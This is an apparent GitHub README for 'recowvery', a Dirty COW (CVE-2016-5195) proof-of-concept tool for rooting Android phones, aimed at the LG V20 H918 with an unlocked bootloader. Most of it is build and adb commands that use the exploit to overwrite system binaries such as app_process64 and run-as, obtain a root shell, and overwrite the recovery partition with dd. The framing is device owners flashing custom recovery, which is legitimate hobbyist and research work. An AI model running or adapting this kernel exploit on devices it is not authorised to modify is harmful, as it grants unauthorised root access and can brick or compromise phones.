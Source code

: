 # CVE-2016-5195
CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

## recowvery, an exploit tool for flashing recovery on "secure" systems with **unlocked** bootloaders
This means you, LG V20 H918 (T-Mobile)

This repository is set up for building inside an Android OS build environment.  
Please add it to your `local_manifests` folder as `dirtycow.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<manifest>
	<remote  name="jc" fetch="ssh://git@github.com/jcadduono/" />
	<project path="external/dirtycow" name="android_external_dirtycow" remote="jc" revision="android-6.0" />
	<project path="external/libbootimg" name="android_external_libbootimg" remote="jc" revision="android-6.0" />
</manifest>
```

## Usage:

### Building:
```sh
lunch your_device-eng

make -j5 dirtycow recowvery-applypatch recowvery-app_process64 recowvery-run-as
```

### Running:
```sh
adb push dirtycow /data/local/tmp
adb push recowvery-applypatch /data/local/tmp
adb push recowvery-app_process64 /data/local/tmp
adb push recowvery-run-as /data/local/tmp

adb shell

$ cd /data/local/tmp
$ chmod 0777 *
$ ./dirtycow /system/bin/applypatch recowvery-applypatch
"<wait for completion>"
$ ./dirtycow /system/bin/app_process64 recowvery-app_process64
"<wait for completion, your phone will look like it's crashing>"
$ exit

adb logcat -s recowvery
"<wait for it to tell you it was successful>"
"[CTRL+C]"

adb shell reboot recovery
"<wait for phone to boot up again, your recovery will be reflashed to stock>"

adb shell

$ getenforce
"<it should say Permissive, adjust source and build for your device!>"

$ cd /data/local/tmp
$ ./dirtycow /system/bin/run-as recowvery-run-as
$ run-as exec ./recowvery-applypatch boot
"<wait for it to flash your boot image this time>"

$ run-as su
#
"<play around in your somewhat limited root shell full of possibilities>"
```

From your root shell, it's possible to use commands such as:
```sh
dd if=/sdcard/twrp.img of=/dev/block/bootdevice/by-name/recovery
```
If you have a [Team Win Recovery Project](https://twrp.me/) image on your internal storage, this is how you would install a custom recovery.
